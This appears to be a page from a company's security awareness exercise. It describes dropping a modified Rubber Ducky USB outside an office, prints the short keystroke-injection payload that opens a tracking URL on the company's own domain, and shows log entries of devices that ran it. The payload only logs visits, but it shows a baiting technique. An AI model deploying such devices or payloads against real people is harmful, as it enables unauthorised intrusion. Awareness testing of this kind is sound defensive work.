 [Back to Main Page](../index.html) 

# Rubber Ducky

<img src="../img/banner_hackerblue.jpg" width="1000">

## Rubber Ducky Setup

Recently we decided to test our employees by dropping off a modified Rubber Ducky outside of the building and creating awareness for such social attacks.


The DuckyCode opens up a webpage.php, which tracks the device and logs it on logfile which has been placed on the webserver.

This is the uncompiled payload.

```
DELAY 1000
GUI r
DELAY 100
STRING https://company.tld/rubduck/link.php // insert link here
ENTER
```
  
After creating the payload we inject it on the USB, by placing the inject.bin in the root directory.

## Rubber Ducky Dropoff

## Rubber Ducky Result

```
2021-11-18 20:04:58: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:05:45: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:12: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:31: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:08:38: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
```

